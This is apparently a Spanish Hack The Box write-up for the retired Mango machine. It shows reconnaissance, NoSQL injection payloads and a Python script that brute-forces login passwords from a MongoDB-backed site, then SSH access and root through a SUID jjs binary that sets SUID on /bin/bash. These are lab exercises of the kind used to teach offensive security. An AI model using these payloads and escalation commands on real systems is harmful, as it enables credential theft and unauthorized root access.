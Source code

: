 ```yaml
---
layout: post
title:  "Maquina Retirada Mango de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada MANGO
tags: HTB, Bypass, NoSQLI, Mongo-db, JJS, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Mango ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.162       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos un dominio 

Usamos la herramienta whatweb
```bash
# whatweb 10.10.10.162                                                                                                                                                                                        1 ⚙
http://10.10.10.162 [403 Forbidden] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], Title[403 Forbidden]
```
Nos arroja un Forbidden y si probamos con el dominio encontrado?
```bash
# whatweb staging-order.mango.htb                                                                                                                                                                             
http://staging-order.mango.htb/ [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], PasswordField[password], Script, Title[Mango | Sweet & Juicy]
```
Nos arroja mas informacion.

Vemos que Tenemos un Login, probamos las tipicas injecciones de SQLI y vemos que no nos respode a ninguna.. 
Buscamos informacion sobre las bases de datos `Mongo-db`
Vemos que justo para las bases de datos `Mongo-db` hay unas injecciones llamadas `NoSqli`.

Injeccion No Sqli
```bash
username[$regex]=^a.*$&password[$ne]=lol&login=login    --- codigo 302
```
Averiguamos la longitud de la contraseña para el usuario `admin`: `username=admin&password[$regex]=^.{12}$&login=login   ----302`

Averiguarmos la longitud de la contraseña para el usuario `mango`: `pusername=mango&password[$regex]=^.{16}$&login=login ------- 302`

Conseguimos sacar dos usuarios validos: `admin , mango`

Nos montamos un `exploit` en python3 para sacar las contraseñas de los dos usuarios enumerados de la misma forma.
```python3
#!/usr/bin/python3

import requests
import re
import signal
import sys
import pdb
import string
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
s = string.ascii_letters + string.digits + string.punctuation 

def makeRequest():

    password = ""

    for i in range(0, 20):

        for character in s:

            p1.status("Probando el caracter %s" % character)

            post_data = {
                'username': 'admin',
                'password[$regex]': '^%s.*$' % (re.escape(password + character)),
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Password")
    time.sleep(2)

    makeRequest()
```
Lanzamos este exploit para sacar las passwords
Para el user `mango`:
```bash
# python3 Mango_NoSQLI.py                                                                                                                                                                                     
[↙] Fuerza bruta: Probando el caracter ~
[◒] Password: h3mXK8RhU~f{]f5H
```
Para el user `admin`:
```bash
# python3 Mango_NoSQLI.py                                                                                                                                                       

[..\.....] Fuerza bruta: Probando el caracter ~
[◥] Password: t9KcS3>!0B#2
```

# Accediendo por el SSH con las Credenciales Obtenidas
Teniendo las credenciales de la base de datos podriamos probar a conectarnos por el servicio `ssh` con las `passwords` encontradas.
```bash
mango@mango:~$ whoami
mango

mango@mango:/home$ ls
admin  mango

mango@mango:/home/admin$ ls
user.txt

```
ernumeramos el sistema:
```bash
mango@mango:/$ find / -group admin -type f 2>/dev/null
/var/crash/_usr_bin_pkttyagent.4000000000.crash
/home/admin/.bash_logout
/home/admin/.profile
/home/admin/.bashrc
/home/admin/user.txt
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-sr-- 1 root  admin  10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Como nosotros teniamos la password encontrada del usuario `Admin` podemos probar a hacer un cambio de usuario con el comando `su`.
Vemos que lo hacemos sin problema y conseguimos la flag de `user.txt`.

# Escalada de privilegios mediante el Binario SUID jjs
Con el binario SUID encontrado de jjs nos dirigimos como siempre a la pagina de GTFOBins y chequeamos por `jjs` y permisos SUID:
```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs ``
```
Para Hacerlo de una manera mas sencilla, nos abrimos una session interactiva y modificamos un poco el comando a introducir:
- La Modificamos ya que estamos en una session interactiva de jjs -
```bash
$ Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()

$ Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
```
Introducimos la sentencia en `java` y conseguimos `root`
Maquina Rooteada =) KOHack

